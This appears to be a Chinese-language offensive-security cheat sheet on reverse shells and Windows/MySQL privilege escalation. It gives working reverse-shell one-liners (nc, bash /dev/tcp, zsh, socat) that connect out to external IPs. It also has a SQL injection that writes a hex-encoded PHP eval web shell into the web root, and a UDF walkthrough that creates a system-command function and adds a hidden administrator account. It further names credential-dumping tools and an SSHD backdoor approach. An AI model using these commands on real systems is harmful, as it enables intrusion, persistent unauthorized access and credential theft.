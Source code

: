 ## 反弹 shell

后门：https://github.com/LukaSikic/HaCoder.py

```sh
nc -e /bin/bash 4.4.9.102 8080
bash -c 'bash -i >/dev/tcp/4.4.9.102/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  #4.4.9.102
```

## mssql 提权

TODO

## mysql 提权

## UDF 提权

虽然 MySQL 的内置函数虽然丰富，但毕竟不能满足所有人的需要，有时候我们需要对表中的数据进行一些处理而内置函数不能满足需要的时候，就需要对 MySQL 进行一些扩展，这就是可以自行添加的 MySQL 的 UDF。

MYSQL5.1 及之后的几个版本又多了一个限制：创建函数时所用的 DLL 只能放在 mysql 的 plugin 目录里面，而且这个 plugin 目录默认是不存在的，可能就是为了防止黑客通过导出文件的方式将 DLL 来写到这个文件夹，如果导出文件（`into dumpfile`）的目标目录不存在是会报错的。

**所以在导出 UDF 提权之前 ，先确定一下 MYSQL 的版本是有必要的**(`select version();`)

## 写入一句话木马

```sql
union select
0x3c3f70687020406576616c28245f504f53545b2770617373275d293b3f3e,2,3 into
dumpfile 'c:/www/small.php'

# 以上语句连续执行两次，如果出现以下错误，即说明文件写入成功：
# Invalid Query：File 'c:/www/small.php' already exists
# 第二次写入提示文件已存在则说明文件写入成功
```

## 查看 MYsql 安装根目录

```sql
select @@basedir;
```

根据 我们前面讲述的 MySQL5.1 版本及其之后版本，我们自定义函数需要用到的 shell 导出的目录应该是：
`C:/Program Files/phpStudy/MySQL/lib/plugin/`

其实也可以通过以下语句获得插件目录(_并不一定真实存在_):
`show variables like '%plugin%';`

## 创建/lib/plugin 目录

```sql
select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib::INDEX_ALLOCATION';
# 利用NTFS ADS创建lib目录

select 'test' into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin::INDEX_ALLOCATION';
# 利用NTFS ADS创建plugin目录
```

**利用 NTFS ADS 创建目录成功率很小，这个命令执行返回一直为空，二次执行不提示目录已存在，即可判断目录创建失败。如上图即目录创建失败。**

将 udf.dll 导出到 plugin 目录

```sql
select load_file('C:/www/udf.dll') into dumpfile 'C:/Program Files/phpStudy/MySQL/lib/plugin/udf.dll';
```

通过 sql 语句通过 udf.dll 创建 shell 函数

```sql
create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了c:\windows\system32目录

create function shell returns string soname 'C:udf.dll';
# 假设此时udf.dll被上传到了C盘根目录目录

create function shell returns string soname 'udf.dll';
# 假设此时udf.dll被上传到了任意的环境变量目录，如C:\php\
```

### 用法

`shell`函数用于执行系统命令，用法如下

```sql
# 我们尝试在服务器添加一个用户名为`matrix`密码为`matrix`的账户:

select shell('cmd','net user matrix matrix /add');

# 接着尝试把`matrix`账户添加到`administrators`管理组：
select shell('cmd','net localgroup administrators matrix /add');
# 然后查看详细的账户信息，确认是否已经成功添加上账户和账户是否已经被成功添加到管理员组。如下操作：
select shell('cmd','net user matrix');
```

---

提权完毕之后我们可以通过以下语句删除相关函数以防被他人利用：

```sql
drop function shell;
# 删除函数
delete from mysql.func where name='shell';
# 删除函数
```

## linux

- CVE-2016-5195 脏牛漏洞
- CVE-2016-8655：Linux 内核竞争条件漏洞
- CVE-2017-1000367 sudo 本地提权漏洞:selinux 必须开

## win

## 系统密码破解

1. getpass.exe
2. minikz

## 补丁对应漏洞

```
KB2360937 →MS10-084
KB2478960 →MS11-014
KB2507938→ MS11-056
KB2566454→ MS11-062
KB2646524 →MS12-003
KB2645640→ MS12-009
KB2641653→ MS12-018
KB944653 →MS07-067
KB952004 →MS09-012
KB971657 →MS09-041
KB2620712→ MS11-097
KB2393802→ MS11-011
kb942831 →MS08-005
KB2503665 →MS11-046
KB2592799→ MS11-080
```
## SSHD 后门
更改auth_password 函数